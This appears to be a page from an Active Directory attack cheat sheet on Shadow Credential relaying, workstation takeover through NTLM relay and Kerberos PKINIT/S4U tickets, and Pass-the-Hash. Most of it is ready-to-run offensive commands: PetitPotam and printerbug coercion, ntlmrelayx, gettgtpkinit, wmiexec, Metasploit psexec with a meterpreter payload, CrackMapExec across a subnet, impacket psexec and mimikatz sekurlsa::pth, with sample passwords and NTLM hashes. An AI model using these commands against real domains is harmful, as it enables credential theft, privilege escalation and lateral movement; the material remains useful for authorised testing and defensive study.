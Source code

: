 **Scenario**:

- Scenario: Shadow Credential relaying
  - Trigger an NTLM authentication from `DC01` (PetitPotam)
  - Relay it to `DC02` (ntlmrelayx)
  - Edit `DC01`'s attribute to create a Kerberos PKINIT pre-authentication backdoor (pywhisker)
  - Alternatively : `ntlmrelayx -t ldap://dc02 --shadow-credentials --shadow-target 'dc01$'`
- Scenario: Workstation Takeover with RBCD
  ```ps1
  # Only for C2: Add Reverse Port Forward from 8081 to Team Server 81

  # Set up ntlmrelayx to relay authentication from target workstation to DC 
  proxychains python3 ntlmrelayx.py -t ldaps://dc1.ez.lab --shadow-credentials --shadow-target ws2\$ --http-port 81

  # Execute printer bug to trigger authentication from target workstation 
  proxychains python3 printerbug.py ez.lab/matt:Password1\!@ws2.ez.lab ws1@8081/file

  # Get a TGT using the newly acquired certificate via PKINIT 
  proxychains python3 gettgtpkinit.py ez.lab/ws2\$ ws2.ccache -cert-pfx /opt/impacket/examples/T12uyM5x.pfx -pfx-pass 5j6fNfnsU7BkTWQOJhpR

  # Get a TGS for the target account 
  proxychains python3 gets4uticket.py kerberos+ccache://ez.lab\\ws2\$:ws2.ccache@dc1.ez.lab cifs/ws2.ez.lab@ez.lab administrator@ez.lab administrator_tgs.ccache -v

  # Utilize the TGS for future activity 
  export KRB5CCNAME=/opt/pkinittools/administrator_ws2.ccache
  proxychains python3 wmiexec.py -k -no-pass ez.lab/administrator@ws2.ez.lab
  ```

### Pass-the-Hash

The types of hashes you can use with Pass-The-Hash are NT or NTLM hashes. Since Windows Vista, attackers have been unable to pass-the-hash to local admin accounts that weren’t the built-in RID 500.

* Metasploit
  ```powershell
  use exploit/windows/smb/psexec
  set RHOST 10.2.0.3
  set SMBUser jarrieta
  set SMBPass nastyCutt3r  
  # NOTE1: The password can be replaced by a hash to execute a `pass the hash` attack.
  # NOTE2: Require the full NTLM hash, you may need to add the "blank" LM (aad3b435b51404eeaad3b435b51404ee)
  set PAYLOAD windows/meterpreter/bind_tcp
  run
  shell
  ```
* CrackMapExec
  ```powershell
  cme smb 10.2.0.2/24 -u jarrieta -H 'aad3b435b51404eeaad3b435b51404ee:489a04c09a5debbc9b975356693e179d' -x "whoami"
  ```
* Impacket suite
  ```powershell
  proxychains python ./psexec.py jarrieta@10.2.0.2 -hashes :489a04c09a5debbc9b975356693e179d
  ```
* Windows RDP and mimikatz
  ```powershell
  sekurlsa::pth /user:Administrator /domain:contoso.local /ntlm:b73fdfe10e87b4ca5c0d957f81de6863
  sekurlsa::pth /user:<user name> /domain:<domain name> /ntlm:<the users ntlm hash> /run:"mstsc.exe /restrictedadmin"
  ```
